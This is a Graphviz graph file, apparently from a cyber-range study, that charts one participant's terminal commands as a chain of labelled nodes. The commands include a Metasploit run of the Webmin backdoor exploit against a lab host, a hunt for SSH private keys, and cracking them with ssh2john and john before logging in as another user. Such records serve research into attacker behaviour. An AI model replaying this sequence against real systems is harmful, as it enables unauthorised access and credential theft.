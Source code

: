 // creating graph for user: 69
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cd .. U"]
	2 [label="ls A10 "]
	3 [label="cd etc U"]
	4 [label="ls A10 "]
	5 [label="cd ... U"]
	6 [label="cd .. U"]
	7 [label="ls A10 "]
	8 [label="cd root U"]
	9 [label="ls A10 "]
	10 [label="ssh 172.18.1.5 -p 10000 A16 "]
	11 [label="ssh 172.18.1.5 A16 "]
	12 [label="metasploit U"]
	13 [label="metasploit U"]
	14 [label="service postgresql start U"]
	15 [label="msfsplayload U"]
	16 [label="msfplayload U"]
	17 [label="msf U"]
	18 [label="msfconsole M2 "]
	19 [label="cd .. U"]
	20 [label="cd home U"]
	21 [label="cd root U"]
	22 [label="cd debian U"]
	23 [label="cd U"]
	24 [label="cd .. U"]
	25 [label="exit U"]
	26 [label="msfconsole V2 "]
	27 [label="cd .. U"]
	28 [label="cd root U"]
	29 [label="info U"]
	30 [label="help search A3 "]
	31 [label="search 1.920 A3 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	33 [label="show options M5 "]
	34 [label="set vhost A6 "]
	35 [label="set lhost 10.1.135.83 A6 "]
	36 [label="set lhost 172.18.1.5  A6 "]
	37 [label="set lport 10 000 A6 "]
	38 [label="set lport 10000 A6 "]
	39 [label="exploit V8 "]
	40 [label="set rhost 172.18.1.5 A6 "]
	41 [label="ifconfig U"]
	42 [label="set lhost 10.1.135.83 A6 "]
	43 [label="exploit V8 "]
	44 [label="set rport 10000 A6 "]
	45 [label="set lhost A6 "]
	46 [label="exploit V8 "]
	47 [label="ls A10 "]
	48 [label="ls A10 "]
	49 [label="cd .. U"]
	50 [label="exit U"]
	51 [label="ls A10 "]
	52 [label="ls A10 "]
	53 [label="mfsconsole U"]
	54 [label="ls A10 "]
	55 [label="msfconsole V2 "]
	56 [label="show options V5 "]
	57 [label="set rhost 172.18.1.5 A6 "]
	58 [label="set rport  A6 "]
	59 [label="exit U"]
	60 [label="ls A10 "]
	61 [label="msfconsole V2 "]
	62 [label="set rport 10000 A6 "]
	63 [label="set shost A6 "]
	64 [label="set rhost A6 "]
	65 [label="set rhost 172.18.1.5 A6 "]
	66 [label="set lhost 10.1.135.83 A6 "]
	67 [label="show options V5 "]
	68 [label="use 1.920 A4 "]
	69 [label="set lhost A6 "]
	70 [label="set rhost A6 "]
	71 [label="set rhost 172.18.1.5 A6 "]
	72 [label="set rport 10000 A6 "]
	73 [label="ls A10 "]
	74 [label="cd /root U"]
	75 [label="ls A10 "]
	76 [label="ls A10 "]
	77 [label="cd ..ls A10 "]
	78 [label="cd .. U"]
	79 [label="ls A10 "]
	80 [label="home U"]
	81 [label="cd U"]
	82 [label="ls A10 "]
	83 [label="cd .. U"]
	84 [label="ls A10 "]
	85 [label="cd home U"]
	86 [label="ls A10 "]
	87 [label="cd eve U"]
	88 [label="ls A10 "]
	89 [label="cd .. U"]
	90 [label="ls A10 "]
	91 [label="cd U"]
	92 [label="ls A10 "]
	93 [label="ls A10 "]
	94 [label="cd .. U"]
	95 [label="ls A10 "]
	96 [label="cd home U"]
	97 [label="ls A10 "]
	98 [label="cd alice U"]
	99 [label="ls A10 "]
	100 [label="cd .. U"]
	101 [label="ls A10 "]
	102 [label="cd bob U"]
	103 [label="ls A10 "]
	104 [label="cd U"]
	105 [label="l U"]
	106 [label="ls A10 "]
	107 [label="c d.. U"]
	108 [label="locate A1 A9 A10 A11 A12 A17 "]
	109 [label="find A10 "]
	110 [label="./.bash_historysa U"]
	111 [label="./.bash_history U"]
	112 [label="sudo ./.bash_history U"]
	113 [label="id_rsa U"]
	114 [label="ssh2john.py A14 A16 "]
	115 [label="find ssh2john.py A10 A14 A16 "]
	116 [label="ls A10 "]
	117 [label="cd .. U"]
	118 [label="ls A10 "]
	119 [label="cd home U"]
	120 [label="ls A10 "]
	121 [label="cd eve U"]
	122 [label="ls A10 "]
	123 [label="id U"]
	124 [label="id_rsa eve U"]
	125 [label="ls A10 "]
	126 [label="ls A10 "]
	127 [label="lsa A10 "]
	128 [label="ls a A10 "]
	129 [label="la U"]
	130 [label="ls a A10 "]
	131 [label="list all U"]
	132 [label="list U"]
	133 [label="lsa A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="ls A10 "]
	136 [label="cd .. U"]
	137 [label="cd .. U"]
	138 [label="ls A10 "]
	139 [label="john hash A14 "]
	140 [label="john bash A14 "]
	141 [label="/home/eve/.ssh# ssh -l id_rsa eve@172.17.5.4 V16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	rankdir=LR
}
